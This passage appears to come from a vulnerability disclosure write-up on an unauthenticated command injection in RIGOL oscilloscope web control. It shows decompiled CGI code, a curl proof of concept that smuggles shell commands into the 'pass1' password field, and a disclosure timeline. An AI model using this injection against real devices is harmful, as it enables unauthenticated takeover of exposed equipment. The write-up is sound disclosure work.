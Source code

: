 ```c
pcVar1 = (char *)read_item_value("pass0",256);
strcpy(pass0,pcVar1);
pcVar1 = (char *)read_item_value("pass1",256);
strcpy(pass1,pcVar1);
```

`read_item_value` is basically a wrapper around [`cgiFormString`](https://github.com/boutell/cgic#cgiFormString). If we provide the `pass0` and `pass1` form values in our HTTP request, we're set.
```c
char* read_item_value(char* param,int size) {
  // cmd_str is a global allocated buffer.
  memset(cmd_str,0,0x100);
  cgiFormString(param,cmd_str,size);
  return cmd_str;
}
```

## The exploit
So, in the end, we control everything! A simple `curl` command is enough to hack an RIGOL oscilloscope through the RIGOL Web Control, without being authenticated at all.

```bash
curl http://localhost/cgi-bin/changepwd.cgi -d "pass0=" -d "pass1=; whoami; id; uname -a # "
```

![pwned](/exploit.png)

## Timeline
* Vulnerability found, 11/8/22
* Sent detailed PoC, 11/9/22
* RIGOL says they would have contacted me with updates from R&D, 11/9/22
* Follow-up on the vulnerability, 1/25/23
* RIGOL says they would reply in 2-3 days, 1/28/23
* Full disclosure, 2/8/23

## Conclusion
Do not expose your RIGOL oscilloscopes to the internet.

## Trivia
I also made [a CTF challenge](https://github.com/havce/havceCTF/tree/master/scope) based on this vulnerability.